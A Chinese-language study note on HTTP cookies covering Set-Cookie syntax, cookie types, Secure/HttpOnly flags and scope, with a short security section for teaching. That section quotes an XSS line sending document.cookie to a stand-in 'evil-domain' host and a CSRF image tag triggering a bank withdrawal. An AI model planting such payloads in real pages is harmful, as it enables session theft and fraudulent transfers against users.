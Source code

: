 ## cookie 和 session知识图谱


## 生成cookie

服务端header头格式

```bash
	Set-Cookie: <cookie-name>=<cookie-value>
```

## cookie分类

1. Session cookies【会话层cookie】

```bash
	Set-Cookie: <cookie-name>=<cookie-value>
```

如果不添加任何的指令(directive)的话，cookie的有效期仅仅在浏览器(或者页面)未关闭生效。

2. 持久cookie

采用`Expires`或者`Max-Age`来控制cookie有效时间。

```bash
	Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

3. Secure and HttpOnly cookies

一个secure的cookie只有当网站采用SSL和https协议的时候，客户端才会发送。
在chrome和火狐52版本后，如果网站不设置为https，`set-cookie`将不能使用`secure`指令.

为了避免XSS攻击，可以设置`HttpOnly`以避免js对cookie的操作。

```bash

	Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

```

## cookie作用域

采用`domain`和`path`来定义cookie的作用域。

`domain`指令的作用域对子域名同样生效

`path`指令是指针对客户端url做cookie的过滤限制。


```bash
	# 设置path='/',如下url也会match 
	/docs
```


## cookie安全性问题

**列举如下两种情况**

1. XSS

```js
      (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

```

2. CSRF

```html
     <img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">

```

**解决方案**

1. input输入过滤 escape

2. 敏感动作设置较短cookie过期时间(仅针对cookie)，当然这块有很多种其他做法




























